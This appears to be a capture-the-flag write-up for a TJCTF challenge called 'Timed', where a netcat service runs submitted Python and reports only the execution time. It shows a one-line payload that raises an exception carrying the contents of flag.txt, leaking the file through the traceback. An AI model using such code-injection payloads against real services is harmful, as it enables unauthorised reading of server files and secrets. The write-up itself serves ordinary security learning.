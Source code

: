 # Timed

![](chall.png)

When you connect to the server, you are able to execute python commands, and it tells you how long it took to execute that command.

```
$ nc p1.tjctf.org 8005
Type a command to time it!
5 + 5
Runtime: 3.09944152832e-06

Type a command to time it!
2 ** 100
Runtime: 9.53674316406e-07

Type a command to time it!
```

I assumed the flag would be in `flag.txt`

You aren't able to print to the screen, as that would be too easy.

```
Type a command to time it!
print("asdf")
Runtime: 1.00135803223e-05

Type a command to time it!
```

Then I thought because the title was called Timed, we can loop through each character of the flag and wait `ord(char)` seconds. That way, we can find each char by looking at how much time it took to execute each instruction. I spent some time trying that. I won't bore you about exactly what I did, in the end it failed.

I then remembered that you can throw your own errors by using Python's `raise`. Turns out, that's the solution!

```python
raise ValueError(open('flag.txt','r').read(100))
```

```
$ nc p1.tjctf.org 8005
Type a command to time it!
raise ValueError(open('flag.txt','r').read(100))
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    raise ValueError(open('flag.txt','r').read(100))
ValueError: tjctf{iTs_T1m3_f0r_a_flaggg}

Runtime: 0

Type a command to time it!
```

Flag: `tjctf{iTs_T1m3_f0r_a_flaggg}`
